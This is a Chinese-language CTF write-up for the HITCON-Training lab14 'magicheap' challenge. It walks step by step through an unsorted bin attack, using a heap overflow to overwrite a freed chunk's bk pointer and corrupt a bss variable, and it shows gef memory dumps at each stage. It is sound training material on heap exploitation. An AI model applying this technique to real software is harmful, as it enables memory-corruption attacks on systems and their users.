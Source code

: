 ```yaml
---
title: "magicheap（unsorted_bin_attack)"
date: 2019-09-19T09:39:11+08:00
draft: false
---
```



题目链接：

<https://github.com/scwuaptx/HITCON-Training/tree/master/LAB/lab14>



首先分析程序，存在任意长度堆溢出，我们的目的是覆盖 bss 段的 magic 变量，使其大于 0x1305, 很容易想到 unsorted bin attack， 该技术达到的效果就是写 unsorted_chunks (av) 到任意地址，而这个值是比较大的。

我会着重展示内存的变化：

bk 是指向 chunk 的 pre_size 的地方的，而我们的 target address 对应的是 fake chunk 的 fd 的地方。

所以  bk = target_address-0x10

我们直接利用堆溢出，将 unsorted bin 链表中的第一个 chunk 的bk，从而malloc 堆块的时候就能达到 bk 写 unsorted bin 链表头部值的效果。



1. 首先 malloc 三个 chunk，分别问 chunk 0, chunk1,chunk2:

```python
gef➤  heap chunks
Chunk(addr=0xa1e010, size=0x30, flags=PREV_INUSE)
    [0x0000000000a1e010     61 61 61 61 0a 00 00 00 00 00 00 00 00 00 00 00     aaaa............]
Chunk(addr=0xa1e040, size=0x90, flags=PREV_INUSE)
    [0x0000000000a1e040     78 5b db 87 c9 7f 00 00 78 5b db 87 c9 7f 00 00     x[......x[......]
Chunk(addr=0xa1e0d0, size=0x30, flags=)
    [0x0000000000a1e0d0     63 63 63 63 0a 00 00 00 00 00 00 00 00 00 00 00     cccc............]
Chunk(addr=0xa1e100, size=0x20f10, flags=PREV_INUSE)  ←  top chunk
```



chunk0 用来写，chunk1 用来free 后放入 unsorted bin 链表，所以大小要大于 fastbin 的最大值，chunk 2 防止 free 1 时

2. 接下来我们 free chunk 1, chunk 1 放入 unsorted bin 链表

```python
[+] unsorted_bins[0]: fw=0xa1e030, bk=0xa1e030
 →   Chunk(addr=0xa1e040, size=0x90, flags=PREV_INUSE)
```

此时 chunk 1 的内容：

```python
gef➤  x/16gx 0xa1e040-0x10
0xa1e030:	0x0000000000000000	0x0000000000000091
0xa1e040:	0x00007fc987db5b78	0x00007fc987db5b78
0xa1e050:	0x0000000000000000	0x0000000000000000
0xa1e060:	0x0000000000000000	0x0000000000000000
0xa1e070:	0x0000000000000000	0x0000000000000000
0xa1e080:	0x0000000000000000	0x0000000000000000
0xa1e090:	0x0000000000000000	0x0000000000000000
0xa1e0a0:	0x0000000000000000	0x0000000000000000

```



3. 接下来，利用堆溢出漏洞写chunk0, 覆盖 chunk1 中的 bk 指针。

此时chunk1的内容,已经成功修改 bk 指针

```
gef➤  x/16gx 0xa1e040-0x10
0xa1e030:	0x0000000000000000	0x0000000000000091
0xa1e040:	0x0000000000000000	0x00000000006020b0
0xa1e050:	0x0000000000000000	0x0000000000000000
0xa1e060:	0x0000000000000000	0x0000000000000000
```



此时 magic 的值：

```
gef➤  x/16gx 0x00000000006020b0
0x6020b0 <stdin@@GLIBC_2.2.5>:	0x00007fc987db58e0	0x0000000000000000
0x6020c0 <magic>:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0 <heaparray>:	0x0000000000a1e010	0x0000000000000000
```

看，此时 unsorted bin 的 bk 值

```
unsorted_bins[0]: fw=0xa1e030, bk=0x6020b0
```



4. 接下来malloc,刚好重新分配 chunk1 给我们。从 unsorted bin 取出，然后bk 就会指向 unsorted bin 的头，从而修改 magic 的值，是不是很简单。

从、此时 magic 的值也被修改了：

```
gef➤  x/16gx 0x6020b0
0x6020b0 <stdin@@GLIBC_2.2.5>:	0x00007fc987db58e0	0x0000000000000000
0x6020c0 <magic>:	0x00007fc987db5b78	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
```

这个值就是 unsorted bin 链表的头部，也就是 main_arena+88。

结束了~

题目相关内容可以

四步：

- malloc three chunks
- free chunk1
- overwrite bk of chunk1
- malloc a chunk, the size is same with chunk1

我们再来回顾一下这道题：

- 首先漏洞是edit函数的堆溢出
- 其次add delete edit 基本都没有太多限制，很方便我们执行 attack
- 最终目的是改写bss段的某个值。

由此想到每道题的最终目的都是不一样的。

其实边写边觉得.... 这些东西都写烂了吧，不过我要想总结出新的东西，还是需要耐着性子重新过一遍的。

